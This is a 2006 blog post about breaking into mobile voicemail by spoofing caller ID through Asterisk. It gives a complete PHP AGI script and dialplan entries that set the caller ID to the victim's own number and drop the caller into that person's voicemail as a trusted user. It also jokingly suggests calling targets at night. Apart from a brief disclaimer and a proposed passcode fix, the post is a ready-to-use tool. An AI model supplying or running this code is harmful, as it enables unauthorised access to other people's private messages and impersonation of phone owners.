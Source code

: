 ```yaml
---
date: 2006-09-24T23:36:16Z
tags: ["technology","technology"]
title: Hacking mobile voicemail with Asterisk and caller ID spoofing
wordpress_id: 1352
wordpress_url: http://www.nata2.org/2006/09/24/hacking-voicemail-with-asterisk-and-caller-id-spoofing/
---
```


So there has always had a problem with US mobile providers having their voicemail be susceptible to being compromised by calling with a spoofed caller id. Apparently most providers caller id apps just checks the referring callerid - and doesn't force the voicemail user to pick a passcode; so it allows someone to trick the voicemail app into believing they are calling from a trusted number.

This has been covered all <a href="http://www.toast442.org/C662738431/E680925937/index.html">over the</a> <a href="http://www.i-hacked.com/content/view/124/47">Internet</a> and was in the <a href="http://www.macdevcenter.com/pub/a/mac/2005/01/01/paris.html">spotlight</a> awhile back when it was alleged that this was how <a href="http://blog.tmcnet.com/blog/tom-keating/mobile-phones/paris-hilton-hacks-voicemail-using-asterisk.asp">Paris Hilton's mobile phone was hacked</a>. It is a pretty big problem and is probably really easy to fix.

So, just to make things funnier - I decided that I would release a snippit of code that would make it easier to execute this hack.
<blockquote>#!/asterisk/php/bin/php -q
&lt;?

set_time_limit(30); //make sure the php script doesn't time out
require('phpagi.php'); // include the phpagi class
error_reporting(E_ALL);  // limit the errors

$agi = new AGI(); // instantiate the AGI class
$agi-&gt;answer(); // answer the phone
sleep(2); // wait a sec or two

$agi-&gt;stream_file('enter_spoof'); // speak a wav file that says "enter the number"
$result = $agi-&gt;get_data('beep', 3000, 10); // beep and grab the 10 numbers
$agi-&gt;verbose("Number to call:".$result['result']); // throw info so you know whats up
$agi-&gt;set_callerid($result['result']); // set caller id to the number you are calling
$agi-&gt;exec("Dial IAX2/iax-provider/1".$result['result']); // call the number

?&gt;</blockquote>
You can add this to your /var/lib/asterisk/agi-bin dir and then specify the extension you want to use to dial and execute the php/agi script
<blockquote>exten =&gt; 666,1,Answer
exten =&gt; 666,2,AGI(tmobilevoicemail_spoof.php)
exten =&gt; 666,3,Hangup</blockquote>
Then when you dial 666  it executes the script. It will ask you what number to dial then dial it after setting the caller id to the same number. It will dial the number and then ring the phone. If the phone is on and the target number is answered - it won't work; however if the person doesn't answer you will be placed in the targets voicemail as a trusted user. So, I would suggest calling people in the middle of the night or when you know they will not answer. Wait.. I actually wouldn't suggest calling anyone but yourself.

It seems to me that the only viable solution that will be compatible with all phones, people and providers is to force the users to choose passcode to your voicemail.

This is - of course - a proof of concept. You should not actually hack peoples voicemails. That is not very nice.  We are into being nice.

Also, check out my <a href="http://www.nata2.org/2006/02/14/caller-id-spoofing-with-php-and-asterisk/">previous entry on caller id spoofing</a>.
